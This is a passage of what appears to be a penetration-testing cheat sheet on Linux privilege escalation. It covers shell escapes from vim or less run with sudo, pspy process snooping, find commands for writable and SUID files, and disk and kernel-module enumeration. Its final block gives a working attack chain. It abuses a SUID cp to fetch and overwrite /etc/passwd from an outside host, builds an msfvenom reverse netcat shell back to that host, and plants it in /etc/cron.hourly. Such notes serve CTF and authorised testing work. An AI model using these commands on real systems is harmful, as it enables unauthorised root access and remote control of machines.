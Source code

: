 ```
```
###### Editor PE
vim, less (if the editor has sudo privileges or is runned by root)
```
inside vim or less, after colon(:), execute !/bin/sh
```

### Pspy - Unprivileged Linux Process Snooping
Pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

###### Find Usage
```
Enumerating all files writable by user stuart:
find / -type f -user stuart -perm -u=w 2>/dev/null  
Enumerating all files writable by group stuart
find / -type f -group stuart -perm -g=w 2>/dev/null
Enumerating all files writable by the current user
find / - type f -writable 2>/dev/null

-perm mode permission bits are exactly set
-perm -mode all of permission bits are set
-perm /mode any of permission bits are set
```  
### Enumerating Unmounted Disks
mount  
lsblk  
cat /etc/fstab (/etc/fstab file lists all drives that will be mounted at boot time)
### Enumerating Device Drivers and Kernel Modules
1. lsmod  
2. /sbin/modinfo libata  
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/20c73182-d439-43a4-a3b5-f1fee987821c)

### Abusing Sudo
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/ac8768a1-fc9f-4828-a1cc-791d4cd20972)
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/be5f2545-b176-4def-8e9b-7a422814dc70)


### SUID permissions (anything interesting, to look for in GTFOBins)
>SUID and SGID allow the current user to execute the file with the rights of the owner (setuid) or the owner's group (setgid)
```
find / -perm -4000 -type f 2>/dev/null
```
```
cp with suid perm:

cd /tmp
wget //192.168.1.108/passwd(get new /etc/passwd under /tmp)
cp passwd /etc/passwd

msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.108 lport=1234 R
cp raj.sh /etc/cron.hourly/
ls -al /etc/cron.hourly/
```

